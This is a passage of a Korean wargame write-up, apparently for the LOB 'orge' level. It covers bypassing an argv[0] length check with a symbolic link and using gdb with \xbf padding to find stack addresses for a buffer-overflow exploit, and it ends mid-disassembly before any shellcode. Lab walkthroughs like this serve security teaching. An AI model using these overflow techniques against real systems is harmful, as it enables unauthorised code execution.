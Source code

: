 ``` bash2
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

이전 문제에서 argv[0] 길이 체크만 추가되었다. argv[0]은 보통 실행되는 프로그램의 이름 자체이다. 따라서 symbolic link를 이용하여 프로그램의 이름을 바꾸면 된다.

``` bash2
[darkelf@localhost darkelf]$ ln -s orge `python -c 'print "A"*63'`
[darkelf@localhost darkelf]$ ~/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA hi
stack is still your friend.
```

symbl link를 이용해 argv[0] 길이 체크를 통과할 수 있음을 볼 수 있다.

그런 다음 앞의 문제와 같은 방식으로 문제를 풀어내면 된다.

gdb를 통해 argv[2]의 주소를 알아보자.

``` bash2
[darkelf@localhost darkelf]$ cp orge `python -c 'print "B"*63'`
[darkelf@localhost darkelf]$ gdb -q BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
(gdb) r `python -c 'print "\xbf"*48'` `python -c 'print "A"*425'`
Starting program: /home/darkelf/BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB `python -c 'print "\xbf"*48'` `python -c 'print "A"*425'`
옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜

Program received signal SIGSEGV, Segmentation fault.
0xbfbfbfbf in ?? ()
(gdb) disass main
Dump of assembler code for function main:
0x8048500 <main>:	push   %ebp
0x8048501 <main+1>:	mov    %esp,%ebp
0x8048503 <main+3>:	sub    $0x2c,%esp
0x8048506 <main+6>:	cmpl   $0x1,0x8(%ebp)
0x804850a <main+10>:	jg     0x8048523 <main+35>
0x804850c <main+12>:	push   $0x8048690
0x8048511 <main+17>:	call   0x8048410 <printf>
0x8048516 <main+22>:	add    $0x4,%esp
0x8048519 <main+25>:	push   $0x0
0x804851b <main+27>:	call   0x8048420 <exit>
0x8048520 <main+32>:	add    $0x4,%esp
0x8048523 <main+35>:	mov    0xc(%ebp),%eax
0x8048526 <main+38>:	mov    (%eax),%edx
0x8048528 <main+40>:	push   %edx
0x8048529 <main+41>:	call   0x80483f0 <strlen>
0x804852e <main+46>:	add    $0x4,%esp
0x8048531 <main+49>:	mov    %eax,%eax
0x8048533 <main+51>:	cmp    $0x4d,%eax
0x8048536 <main+54>:	je     0x8048550 <main+80>
0x8048538 <main+56>:	push   $0x804869c
0x804853d <main+61>:	call   0x8048410 <printf>
```